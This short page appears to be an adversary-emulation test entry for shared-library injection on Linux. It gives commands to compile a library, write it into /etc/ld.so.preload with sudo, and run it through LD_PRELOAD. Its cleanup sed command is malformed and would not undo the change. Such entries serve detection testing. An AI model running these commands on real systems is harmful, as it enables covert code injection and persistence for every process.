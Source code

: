 # Hijack Execution Flow

Get Prereq Commands:  
```
gcc -shared -fPIC ./inject_lib.c -o inject_lib.so -ldl  
```
  
# Shared Library Injection via /etc/ld.so.preload  
Attack Commands:
```
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'
``` 
Cleanup Commands:
```
sudo sed -i 's/tmp/inject_lib.so' /etc/ld.so.preload  
```

# Shared Library Injection via LD_PRELOAD  
Attack Commands:
```
LD_PRELOAD=/tmp/inject_lib.so ls  
```
